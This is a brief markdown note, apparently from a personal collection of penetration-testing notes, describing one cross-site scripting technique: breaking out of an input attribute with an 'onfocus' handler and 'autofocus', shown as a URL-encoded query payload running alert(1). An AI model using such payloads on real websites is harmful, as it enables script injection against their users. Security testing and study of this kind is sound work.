 # XSS

## Legend

Symbol/Abbr. | Description
-------------|------------
✔ | Finished
❌ | Rejected / Not done
! | Important
X -> Y | X has resulted in Y
X &-> Y |X depends on Y

## XSS in `<input> ../>` attribute

Use `onfocus` event with the `autofocus` HTML5 attribute:

    [path]?q=aaaaa%20onfocus%3Dalert%281%29%20autofocus%20     # aaaaa onfocus=alert(1) autofocus 
